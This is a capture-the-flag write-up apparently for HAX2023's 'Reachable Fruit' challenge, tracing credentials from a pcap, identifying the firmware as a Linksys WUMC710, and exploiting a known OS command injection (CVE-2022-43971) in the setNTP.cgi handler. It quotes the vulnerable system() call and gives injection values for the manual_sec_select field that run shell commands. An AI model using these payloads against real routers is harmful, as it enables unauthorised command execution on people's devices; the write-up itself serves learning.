

## Reachable Fruit
### Category: Web, Pwn, Reversing

Okay, this was a very interesting challenge, and my solution was sort of an uintended solution. 

PS. I do feel this challenge should've been worth more points.

## TLDR (Intended Solution);

1. Extract credentials from the pcap
2. Use the credentials to login to the webserver; which is run using the firmware.
3. Reverse the firmware to find a vulnerability. which was an OS Injection.
4. Cannot get a reverse shell, or an outbound connection. So cp'ed flag to the server root directory, and renamed it to '.js'. Then accessed it via the webserver.

I definitely would like to know if any teams did this challenge in the intended way.

### My Solution

We have 2 files provided to us. 1. firmware.bin 2. traffic.pcap

From the traffic.pcap, after doing a "Follow > TCP Stream" we find :


`"YWRtaW46YWRtaW4="` decodes to `admin:admin` which does not work. So we need to find the credentials.

In stream 2


`YWRtaW46OF5oaiV1XjQwRDhiOCVseDQ3bjA=` decodes to `admin:8^hj%u$40D8b8$lxD47n0` which works.

We use these credentials to login to the webserver. We can see that the webserver is running on the firmware.

----


It's some router administration page. After sometime of poking around the site, I didn't see anything interesting. So decided to reverse the firmware instead.

----

I used the [firmware-mod-kit](https://github.com/rampageX/firmware-mod-kit) to extract a file system with all the binaries and executables running on the system.

From the pcap file, we also know that the traffic is served via `httpd`. 


---

Loaded up `rootfs/usr/sbin/httpd` in Ghidra, and started reversing to potentially find any bug that I could exploit. 

Now, here's the catch. I couldn't possibly find any bug that I could exploit. 

So, I checked the wireshark again for any other clues? and boy did I find something!



The name `WUMC710` felt sus, so I looked around. 

Turns out `WUMC710` is a media-connector, a router of sorts, which is exactly what our challenge is running.


---

I did have a conversation with the author, turns our he missed editing `WUMC710` from the pcap, lmao xD, and I was not intended to find this particular information.

---

I also downloaded the [firmware for `WUMC710`](https://www.linksys.com/support-article?articleNum=148656) and extracted it.

The first thing I did was, diffe'd the `strings` found in challenge httpd and the official one. 

Guess what?

```
                                                                                                                                                                 
┌──(greenpanda999㉿zacian)-[~/Desktop/Hax/reachable_fruit/httpds]
└─$ diff strings_httpd_cisco strings_httpd_chal                                                                                                                                         130 ⨯
1262c1262
< /media/HDD01/broadcom/WUMC710/test2/710_GPL/SDK_Umedia/src/router/shared/broadcom.c
---
> /media/HDD01/broadcom/HAX2023/test2/710_GPL/SDK_Umedia/src/router/shared/broadcom.c
3267c3267
< Content-Disposition: attachment ; filename=Linksys_WUMC710_backup.cfg
---
> Content-Disposition: attachment ; filename=Trellix_HAX2023_backup.cfg

```
Lol, only the names differ.

Even a binary diff over the exectuables showed the same difference.

Turns out, they are the exact same binaries, with same address, functionalities, etc.

---

A quick google search for `WUMC710 vulnerabilities` led me to [this](https://nvd.nist.gov/vuln/detail/CVE-2022-43971).

From the above link :

1. There's an OS Injection vulnerability.

_AND_

2. [https://youtu.be/RfWVYCUBNZ0](https://youtu.be/RfWVYCUBNZ0) 


This is it! 

The CVE mentioned the bug is in the `do_setNTP()` function. 

Moreover, the author of the video even calls _finding_ the OS injection vulnerability as a __low hanging fruit__ .

But I still couldn't find the bug.!! AAh, that was frustrating!! I couldn't even find `do_setNTP()` function in the binary.

---

So after a conversation with the challenge author, I found out the firmware source code could be open source.

Since reversing wasn't leading my anywhere, I tried to find the source code. 

Bingo! 

__[Source Code](https://sourceforge.net/projects/officiallinksysfirmware/files/wumc710/)__

---

Here on, it was a pretty straight forward challenge.

(Code truncated to show only the important pieces)

```
	{"setNTP.cgi*", "text/html", no_cache, do_apply_post, do_setNTP, do_auth },		

```

```
static void do_setNTP(char *url, FILE *stream)
{
    ...
	setNTP(stream, NULL, NULL, 0, url, path, query);
    ...
}
```
```
static int setNTP(webs_t wp, char_t *urlPrefix, char_t *webDir, int arg,
	     char_t *url, char_t *path, char_t *query)
{
    ...
	if(!strcmp(timeTag, "NTP")){
	...
	}else if  (!strcmp(timeTag, "manual")){
    ...
		setDateTime(wp, &path, &query);
	...
	}
	return 0;
}
```
```
static void setDateTime(webs_t wp, char_t *path, char_t *query)
{
    ...
	second = websGetVar(wp, T("manual_sec_select"), T(""));

	sprintf(cmd_sys,"date -s %s%s%s%s%s.%s", month, day, hour, minute, year, second); //Salim
	printf("cmd_sys=%s \n",cmd_sys);
	system(cmd_sys);
    ...
}
```

BINGO!

So, the attack path was clear.

1. Make a `POST`request to `setNTP.cgi`

2. Include the following parameters

    a. timeTag=manual (so `setDateTime` gets called)
    
    b.  command injection via `manual_sec_select` parameter.

---

### Exploitation

To confirm command injection,

```
timeTag=manual&manual_sec_select=; sleep 2;
```


---

But I couldn't work `wget` to work. So, I assume, outbount connections are bound by some sort of firewall.

Since, we can access `.js` scripts. I simply moved `/flag` to `/www/x0rc3r3rs.js` and accessed it via the browser.

```
timeTag=manual&manual_sec_select=; cp /flag /wwww/x0rc3r3rs.js;
```


Flag


`ARC{7h3n_y0ur_3y35_5h411_b3_0p3n3d}`

---

## After thoughts

After a further conversation with the challenge author, apparently, Ghidra was a major culprit in the process! 

It failed to disassemble, and hence find the `do_setNTP()`, `setNTP()` functions, even the xref to `system()` in `setDateTime()` was missing! 

I'll try to solve this in Binary Ninja someday 🤷
